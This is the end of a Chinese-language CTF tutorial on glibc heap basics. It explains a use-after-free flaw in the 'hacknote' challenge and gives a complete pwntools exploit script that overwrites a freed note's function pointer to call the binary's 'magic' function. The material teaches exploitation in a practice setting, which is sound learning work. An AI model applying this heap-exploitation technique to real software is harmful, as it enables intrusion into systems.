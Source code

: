 ![image-20220206112940649](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e7d43d357374d42a991163779716ea6f7120829b.png)

这里 **print\_note(0) 函数** 能成功找到note0结构体的位置，是因为 **del\_note 函数** 没有把 note0 的指针置为 NULL, 这导致我们可以再次使用note0，这就是典型的 **UAF**。

##### Exp :

```python
from pwn import *
context.log_level = 'debug'

p = process('./hacknote')
#r = remote(, )
e = ELF('./hacknote')

def sla(signal, content):
  p.sendlineafter(signal, content)

def add_note(size, content):
    sla('Your choice :', '1')
    sla('Note size :', str(size))
    sla('Content :', content)

def del_note(index):
    sla('Your choice :', '2')
    sla('Index :', str(index))

def show(index):
    sla('Your choice :', '3')
    sla('Index :', str(index))

magic = p32(e.sym['magic']) #0x8048945

add_note(0x10, 'a') #0
add_note(0x10, 'a') #1
pause()
del_note(0) #0
del_note(1) #1
pause()
add_note(0x8, magic) #2
pause()
show(0)

p.interactive()
```

0x4总结
=====

因为堆涉及到了许多计算机底层的知识，主要是内存管理的知识，知识量比较庞大，也比较复杂，所以本篇仅仅对堆进行一些基础概念讲解并对first fit机制与UAF漏洞进行说明与演示，同时也参考了很多大牛的博客。演示中的例题在网上都是可以找到的，也可以私信我来获取。希望大家能自己动手操作，多多思考、多多调试。毕竟pwn的魅力就在于在反复的调试中一步一步逼近答案。

0x5参考文章
=======

[CTF-Wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/heap-overview/)

[30张图带你领略glibc内存管理精髓](https://www.modb.pro/db/152449)

[如何理解Glibc堆管理器](https://tokameine.top/2021/08/07/glibc-1/)